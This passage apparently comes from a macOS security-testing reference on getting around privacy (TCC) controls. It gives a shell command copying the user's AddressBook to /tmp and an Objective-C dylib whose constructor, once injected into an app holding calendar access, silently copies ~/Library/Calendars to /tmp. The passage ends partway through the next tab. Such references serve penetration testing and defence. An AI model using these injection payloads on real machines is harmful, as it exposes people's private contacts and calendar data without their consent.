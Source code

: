 {% tab title="Shell" %}
Copy `$HOME/Library/Application Support/AddressBook` to `/tmp/contacts`.

```bash
cp -r "$HOME/Library/Application Support/AddressBook" "/tmp/contacts"
```
{% endtab %}
{% endtabs %}

### Calendar

* **Entitlement**: `com.apple.security.personal-information.calendars`
* **TCC**: `kTCCServiceCalendar`

{% tabs %}
{% tab title="ObjectiveC" %}
Copy `$HOME/Library/Calendars` to `/tmp/calendars`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Calendars/"];
    NSString *tmpPhotosPath = @"/tmp/calendars";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/Library/Calendars` to `/tmp/calendars`.

